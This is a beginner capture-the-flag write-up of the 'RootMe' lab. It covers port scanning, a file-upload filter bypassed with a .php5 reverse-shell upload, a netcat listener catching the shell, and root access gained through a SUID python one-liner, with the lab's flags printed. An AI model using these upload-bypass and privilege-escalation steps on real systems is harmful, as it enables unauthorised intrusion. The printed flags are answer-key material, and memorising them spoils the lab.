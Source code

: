 **Tristan Gomez**

# RootMe

### Description

`A ctf for beginners, can you root me?`

### Reconnaissance 

I'm going to do my usual opening for these types of challenges. I will run a SYN scan in nmap to see what ports are open.

```
┌──(gomez22㉿DESKTOP-V2K8SJ4)-[~]
└─$ sudo nmap -sS -Pn 10.10.0.131
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-19 15:58 PDT
Nmap scan report for 10.10.0.131
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 5.90 seconds

```
**Question 1: Scan the machine, how many ports are open?**
* There are two ports open, 22 and 80.

My next step will be to use `gobuster` to see what pages exist for the website.

```
/uploads              (Status: 301) [Size: 312] [--> http://10.10.0.131/uploads/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.0.131/css/]    
/js                   (Status: 301) [Size: 307] [--> http://10.10.0.131/js/]     
/panel                (Status: 301) [Size: 310] [--> http://10.10.0.131/panel/] 
```

After finding the above pages, I decided to navigate to `/uploads`. There I found the version
of Apache being used.

**Question 2: What version of Apache is running?**
* `Apache/2.4.29 (Ubuntu) Server at 10.10.0.131 Port 80`

**Question 3: What service is running on port 22?**
* ssh


**Question 3: What is the hidden directory?**
* `/panel/`

### Getting a shell
* `Find a form to upload and get a reverse shell, and find the flag.`

I navigated to the `/panel` page, which is a file upload page. It seems as though we can abuse this functionality to get
a reverse shell. I attempted to upload a bash script to get a reverse shell to no avail. I looked in my `/usr/share/webshells` folder to see what came with my `kali` installation. I found a `php-reverse-shell.php` scipt/file. I attempted to upload it to the page, but was greeted with a warning.
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="../css/panel.css">
    <script src=../"js/maquina_de_escrever.js"></script>
    <title>HackIT - Home</title>
</head>
<body>
    <div class="first">
        <div class="main-div">
            <form action="" method="POST" enctype="multipart/form-data">
                <p>Select a file to upload:</p>
                <input type="file" name="fileUpload" class="fileUpload">
                <input type="submit" value="Upload" name="submit">
                
                <p class='erro'>PHP não é permitido!</p>            </form>
        </div>
    </div>
</body>
</html>

```

Darn, I can't upload `.php` files....or can I? There are oh so mamy `.ph????` extensions. Let's try a different one.
I went with `.php5`, but others should work as well. <br />

Before I uploaded the file, I ran `netcat` on my machine so that I can actually use the reverse shell.
When I upload the `.php5` file, I get a success message. No sign of a shell though...hmm. Ah, if we go back to the 
`/uploads` page, we can see our file. If we attempt to open it, the `.php5` file is executed and I get 

```
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1111
Ncat: Listening on 0.0.0.0:1111
Ncat: Connection from 10.10.0.131.
Ncat: Connection from 10.10.0.131:36170.
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:34:56 up 38 min,  0 users,  load average: 0.00, 0.00, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

*I'm in* <br />

For this part of the challenge, we need to find the flag which is in `user.txt`. I am going to run
`find -type f -name user.txt`. We get back

```
...
find: './proc/915/task/915/ns': Permission denied
find: './proc/915/fd': Permission denied
find: './proc/915/map_files': Permission denied
find: './proc/915/fdinfo': Permission denied
find: './proc/915/ns': Permission denied
find: './proc/1261/task/1261/fd': Permission denied
find: './proc/1261/task/1261/fdinfo': Permission denied
find: './proc/1261/task/1261/ns': Permission denied
find: './proc/1261/fd': Permission denied
find: './proc/1261/map_files': Permission denied
find: './proc/1261/fdinfo': Permission denied
find: './proc/1261/ns': Permission denied
./var/www/user.txt
find: './var/spool/rsyslog': Permission denied
find: './var/spool/cron/atjobs': Permission denied
find: './var/spool/cron/crontabs': Permission denied
find: './var/spool/cron/atspool': Permission denied
find: './var/log/apache2': Permission denied
...
```

Lots of `Permission denied` but conspicuously we see our target and we can directly access it.
```
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```

### Privilege escalation 
* `Now that we have a shell, let's escalate our privileges to root.`


For this next question we need to find files with `set user id` permissions (`4000`). I ran
`find -perm /4000` and got

```
...
find: './etc/ssl/private': Permission denied
find: './etc/polkit-1/localauthority': Permission denied
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/snapd/snap-confine
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/bin/traceroute6.iputils
./usr/bin/newuidmap
./usr/bin/newgidmap
./usr/bin/chsh
./usr/bin/python
./usr/bin/at
./usr/bin/chfn
./usr/bin/gpasswd
./usr/bin/sudo
./usr/bin/newgrp
./usr/bin/passwd
./usr/bin/pkexec
find: './proc/tty/driver': Permission denied
find: './proc/1/task/1/fd': Permission denied
find: './proc/1/task/1/fdinfo': Permission denied
find: './proc/1/task/1/ns': Permission denied
...
```

Again, lots of `Permission denied` messages, but something stand out here.

**Question 4: Search for files with SUID permission, which file is weird?**
* `/usr/bin/python`


Taking a bit of a deeper look at python
```
ls -l /usr/bin/python
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 python

```

Looks like we can execute python, but I'm not sure how to leverage this for my gain.
I needed to consult the hint `Search for gtfobins`. On `https://gtfobins.github.io/`, I found what I was looking for.
The below command, leverages Python to get us `root` privileges. 

```
python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Running a quit `whoami` after running python yields

```
$ python -c 'import os; os.setuid(0); os.system("/bin/sh")'
whoami
root
```

Woo! Now all thats left is to find the last flag. I decided to `cd` into `/root` and ran `ls`. 
Looks like only one file is there. Let's cat it and finish this up.

```
cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}

```
